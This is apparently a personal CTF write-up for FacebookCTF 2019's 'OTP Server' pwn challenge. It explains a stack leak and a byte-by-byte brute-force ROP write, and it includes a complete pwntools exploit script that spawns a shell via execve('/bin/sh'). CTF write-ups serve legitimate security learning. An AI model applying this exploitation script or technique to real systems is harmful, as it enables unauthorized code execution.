


# OTP Server

This is a moderate-level pwning challenge from FacebookCTF 2019. It had 82 solves.

### Reconnaissance

I started by just reading through the code with IDA Pro and
Ghidra. During startup, space is allocated on the stack for an encrypted message to be stored. There's a message buffer that's up to `0x100` characters which is a global, in the `.bss` section, as well as a key that's up to `0x108` characters in length. The user can set the message, and set the key. So far, so good. Setting the message then displays an encrypted message, but there's a bug in the encryption: first, four bytes get read in from `/dev/urandom`. Okay, fine. The message buffer gets those bytes, then up to `0x104` characters from the message buffer (whoops, four characters too much). If the message buffer is filled, the extra four characters get pulled from the key. Then an extra four characters get tacked on to the end of the message buffer.

Now when I actually went and read in 256 characters for the message (a bunch of B's) and 264 characters for the key (a bunch of A's), I actually printed far more than the message, going much further into the stack and showing the canary, saved `rbp`, and return address!



Here the canary starts at offset 0x130 and is eight bytes long, the saved `rbp` is at 0x138, and the return address is at 0x140. At first I didn't understand _why_ I was printing so much information, but understanding why should help me to exploit this.

Okay, from the `man` page for `snprintf`:

```
RETURN VALUE
       Upon successful return, these functions return the number of characters
       printed (excluding the null byte used to end output to strings).

       The functions snprintf() and vsnprintf() do not write  more  than  size
       bytes  (including the terminating null byte ('\0')).  If the output was
       truncated due to this limit, then the return value  is  the  number  of
       characters  (excluding the terminating null byte) which would have been
       written to the final string if enough space had been available.   Thus,
       a  return  value  of  size or more means that the output was truncated.
       (See also below under NOTES.)
```

So, at this point my thinking was as follows: when I encrypt the message, I write up to `0x208` bytes from the message buffer to the stack where `0x108` bytes are allocated for the message. So I then can overwrite the return address! The extra stuff used to overwrite the return address is the key, which I control. I just need to somehow leak the canary first, then put the canary in my key and start my ROP chain. Also during the leaking I should be able to leak the saved `rbp`, which means I can get around PIE.

This reasoning wasn't completely accurate because I couldn't actually write up to `0x208` bytes from the message buffer to the stack. All I could do was to place some random bytes on the stack, a little further up than they should have been written.

How do I write to the stack? Well unfortunately it's a little painful. The random bytes get placed on the stack way above where they're supposed to be placed, and I can control exactly what that offset is by adjusting the length of the message. I also can figure out what the random bytes were by XORing the first four bytes of the key with the first four bytes of the encrypted message. So, using brute force, I can write four random bytes to a desired location, check if the least significant byte is the byte I desire, and if not repeat the procedure. Then I increase the message length by one and write another four random bytes, thus creating my ROP chain one brute-force byte at a time. It's a pretty slow way to set up a ROP chain, but it's feasible. Next I want to leak a libc address and return to main. At this point it was three hours before the end of the competition.

### Developing the Exploit

Here's my exploit under development...


It was straightforward to develop a set of functions to determine the random bytes that had been generated, write them to the desired stack location, check that the least significant byte is the desired byte, and then repeat to place a payload on the stack.

The rest is a standard ROP chain. First I tried calling `system('/bin/sh')` but that actually didn't work, I think because I had broken something in the environment. That is, `libc` pulls a pointer to the environment out of a prespecified address when `system` gets called, and the environment pointer has somehow been clobbered. I was able to get a local shell by directly calling `execve('/bin/sh', NULL, NULL)`, but the issue here is that my ROP chain is now 48 bytes long. With 75 minutes remaining in the competition, I didn't have enough time to generate that entire ROP chain one byte at a time.

A friend suggested after the competition that I try One Gadget next time, that's only a three-byte write!

One Gadget run on the server `libc` shows the following:

```
ctf@ctf:~/Documents/FacebookCTF2019/pwnables/otp_server/dist$ ~/Tools/OneGadget/one_gadget-master/bin/one_gadget libc-2.27.so
0x4f2c5	execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322	execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Here is the stack right before returning from main:


`[rsp+0x70]` is indeed null, so I tried jumping to the LibC base + 0x10a38c. But that breaks. I tried setting `rcx` to NULL as well with a gadget, and that also failed. I stepped in to the call to `do_system` using GDB, and it would seem that the environment pointer is once again the culprit here. I'll have to ask some smarter people what was going wrong. In the meantime, I threw my 48-byte exploit at the Facebook server before they took it down after the competition, and got the flag:



Here's some exploit code that is still a little messy (right after the competition):

```

# Exploit-otp-server.py

from pwn import *
from time import sleep
from binascii import hexlify


local = False
if local:
	#p = process(#redacted)
	DELAY = 0.01
else:
	#p = remote('challenges3.fbctf.com', 1338)
	p = remote('challenges.fbctf.com', 1338)
	DELAY = 0.01

# What I have to do:

# 1. Write a function that reads info from off the stack and determines
#    the code base if I can, using the available return addresses.
# 2. Write a function that reads the output from a leak and gets the
#    byte at a particular offset.
# 3. Write a function that calculates how big the key needs to be in
#    order to write the random bytes to a particular offset.


p.recvuntil(">>> ")

def set_key(key):
	p.send("1\n")
	p.recvuntil("Enter key:\n")
	p.send(key)
	p.recvuntil(">>> ")

def set_message(message):
	p.send("2\n")
	p.recvuntil("encrypt:\n")
	p.send(message)
	p.recvuntil(">>> ")

def prepare_to_read_past_message(message):
	p.send("2\n")
	p.recvuntil("encrypt:\n")
	p.send(message)

def get_original_random_number_lowest_byte():
	p.recvuntil("\n")
	random_bytes = p.recv(0x4)
	#print("random bytes: " + hex(u32(random_bytes)) + "\n")
	lowest_byte = u32(random_bytes) & 0xff
	original_random_number_lowest_byte = lowest_byte ^ 0x41
	#print("Original random number lowest byte is " + hex(original_random_number_lowest_byte) + "\n")
	#print("Original random number is " + hex(u32(random_bytes) ^ 0x41414141) + "\n")
	return original_random_number_lowest_byte

def write_a_byte(byte, desired_offset_from_return_address):
	done = False
	write_counter = 0
	while not done:
		print("In write_a_byte: pass " + str(write_counter) + ".\n")
		key_length = desired_offset_from_return_address + 0x14
		print("in write_a_byte: using key length " + str(key_length) + ".\n")
		set_key("A"*key_length+"\x00")
		prepare_to_read_past_message("B"*256)
		lowest_byte = get_original_random_number_lowest_byte()
		if lowest_byte == byte:
			print("In write_a_byte: pass " + str(write_counter) + ".\n")
			print("successfully wrote byte " + hex(byte) + " to desired offset: " + str(desired_offset_from_return_address) +".\n")
			done = True
		write_counter += 1

def write_payload(payload, start_offset = 0):
	current_offset_from_return_address = start_offset
	for byte in payload:
		write_a_byte(ord(byte),current_offset_from_return_address)
		current_offset_from_return_address += 1


# 1. Write a function that reads info from off the stack and determines
#    the code base if I can, using the available return addresses.
#    (Don't need a function since I run this once)
set_key("A"*0x108)
prepare_to_read_past_message("B"*256)

p.recvuntil("\x03"*0x100)
p.recv(12)
code_addr_string = p.recv(8)
print("code_addr = " + hex(u64(code_addr_string)) + "\n")
CODE_ADDR = u64(code_addr_string)

# The return address also happens to be a libc address, super convenient.
libc_addr_string = p.recv(8)
print("libc_addr = " + hex(u64(libc_addr_string)) + "\n")
LIBC_ADDR = u64(libc_addr_string)

if local:
	# redacted
else:
	LIBC_OFFSET = 0x21b97
	BINSH_OFFSET = 0x1b3e9a
	SYSTEM_OFFSET = 0x4f440
	POP_RDI_OFFSET = 0x2155f
	RET_OFFSET = 0x8aa
	EXECVE_OFFSET = 0xe4e30
	POP_RDX_RSI_OFFSET = 0x1306d9
	ONE_GADGET_OFFSET = 0x10a38c
	ONE_GADGET_OFFSET_2 = 0x4f2c5
	POP_RCX_OFFSET = 0x3eb0b
	POP_RDX_OFFSET = 0x1b96
CODE_OFFSET = 0xdd0

CODE_BASE = CODE_ADDR - CODE_OFFSET
LIBC_BASE = LIBC_ADDR - LIBC_OFFSET

print("code base is " + hex(CODE_BASE) + "\n")
print("libc base is " + hex(LIBC_BASE) + "\n")

# Various gadgets that I tried
POP_RDI = LIBC_BASE + POP_RDI_OFFSET
RET_ADDR = LIBC_BASE + RET_OFFSET
BINSH_ADDR = LIBC_BASE + BINSH_OFFSET
SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
POP_RDX_RSI_ADDR = LIBC_BASE + POP_RDX_RSI_OFFSET
EXECVE_ADDR = LIBC_BASE + EXECVE_OFFSET
ONE_GADGET_ADDR = LIBC_BASE + ONE_GADGET_OFFSET
POP_RCX_ADDR = LIBC_BASE + POP_RCX_OFFSET
ONE_GADGET_ADDR_2 = LIBC_BASE + ONE_GADGET_OFFSET_2
POP_RDX_ADDR = LIBC_BASE + POP_RDX_OFFSET
# Now I want a function that writes a specific byte to a specific place.
# First I want to decipher the random four bytes that get written somewhere.

set_key("A"*0x108)
prepare_to_read_past_message("B"*256)


# Figure out the offset to the lowest byte of the random number at the top of the string.
# Need to read in a message of size 0x100. Then it depends on the key length.
# I write the random number to the message buffer + the message length + the key length + 0x4.
# I want to start writing at message buffer + 0x100 + 0x4 + 0x14.

print("/bin/sh address: " + hex(BINSH_ADDR) + ".\n")
print("system address: " + hex(SYSTEM_ADDR) + ".\n")

payload = p64(POP_RDI)
payload += p64(BINSH_ADDR)
payload += p64(POP_RDX_RSI_ADDR)
payload += p64(0)
payload += p64(0)
#payload += p64(RET_ADDR)
#payload += p64(SYSTEM_ADDR)
payload += p64(EXECVE_ADDR)

'''
payload = p64(ONE_GADGET_ADDR)#[0:3] # But I only need the first three bytes
print("one gadget address = " + hex(ONE_GADGET_ADDR) + ".\n")
'''

#payload = p64(POP_RCX_ADDR)
#payload += p64(0x0)
#payload += p64(POP_RDX_ADDR)
#payload += p64(0x0)
#payload += p64(ONE_GADGET_ADDR_2)
# There's something wrong with the environment pointer...
print("payload = " + payload + ".\n")
write_payload(payload)

p.interactive()
```

### Comparison with other approaches

A friend managed to use `OneGadget` without issue, so I believe I could probably figure out how I damaged the environment pointer and get the exploit to work by writing just three bytes. That said, someone on the Facebook team mentioned to me that a number of people ran into an issue with getting `system('/bin/sh')` to work, and ended up having to use `execve` instead. Also, the two write-ups on CTFTime at the time of this posting both used fairly long ROP chains. So, I'm going to move on to other problems rather than revisit what was happening with the environment variables.
